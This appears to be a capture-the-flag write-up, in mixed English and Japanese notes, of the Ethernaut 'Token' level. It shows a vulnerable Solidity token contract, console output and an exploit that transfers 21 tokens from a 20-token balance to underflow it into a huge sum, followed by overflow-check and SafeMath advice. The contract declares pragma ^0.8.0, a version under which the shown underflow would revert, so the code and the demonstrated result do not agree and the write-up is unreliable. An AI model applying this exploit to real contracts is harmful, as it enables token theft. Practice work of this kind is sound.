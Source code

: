 5.Token 

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

  Things that might help:

- What is an odometer?

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Token {

  mapping(address => uint) balances; //It's have no negative here, we're dealing with mapping to unsigned integer
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0); //this is know vulnerability or problem in solidity contract 
    //this is always going to yield true,  
    balances[msg.sender] -= _value; //msg.sender = player(me) this is gonna be yield token 20 
    //provide the current amount of tokens in this balances in mapping that th sender of this transaction has 
    
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

>contract.abi //各functionの確認
```
(4) [{…}, {…}, {…}, {…}]
0:
constant: undefined
inputs: [{…}]
payable: undefined
stateMutability: "nonpayable"
type: "constructor"
[[Prototype]]: Object
1: {inputs: Array(1), name: 'balanceOf', outputs: Array(1), stateMutability: 'view', type: 'function', …}
2: {inputs: Array(0), name: 'totalSupply', outputs: Array(1), stateMutability: 'view', type: 'function', …}
3: {inputs: Array(2), name: 'transfer', outputs: Array(1), stateMutability: 'nonpayable', type: 'function', …}
length: 4
[[Prototype]]: Array(0)
```


>await contract.balanceOf(player)

o {negative: 0, words: Array(2), length: 1, red: null}
length: 1
negative: 0
red: null
words: Array(2)
0: 20 //Token保有数
length: 2
[[Prototype]]: Array(0)
[[Prototype]]: Object

>contract.transfer('0x3E6fA38c7A61E80090A21a02a036f26fA28EC69a', 20 + 1 ） //address _to , uint _value


//now 20 is going to be decremented by the value that we're trying to send which is 21.

//as you know arithmetic underflow is going to yield a result that's greater than what you expected 

//知らん人にreinkebyのtokenを２１送りつけて自分のbalaneをminusにする
```
contract.transfer('0x1e8f83b55e1fa534a885a270ef6ed48f26778278', 20 + 1)
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}
```
```
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0xb9fa3072991a5b1e2bd1e9232c49469170be9ff7678b9fe942291eee9ca63142
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0xb9fa3072991a5b1e2bd1e9232c49469170be9ff7678b9fe942291eee9ca63142
```

//Tokenがzeroになったことを確認
```
>await contract.balanceOf(player)

o {negative: 0, words: Array(11), length: 10, red: null}
length: 10
negative: 0
red: null
words: Array(11)
0: 67108863
1: 67108863
2: 67108863
3: 67108863
4: 67108863
5: 67108863
6: 67108863
7: 67108863
8: 67108863
9: 4194303
length: 11
[[Prototype]]: Array(0)
[[Prototype]]: Object
```

Overflows are very common in solidity and must be checked for with control statements such as:
```
if(a + c > a) {
  a = a + c;
}
```
An easier alternative is to use OpenZeppelin's SafeMath library that automatically checks for overflows in all the mathematical operators. The resulting code looks like this:
```
a = a.add(c);
```
If there is an overflow, the code will revert.













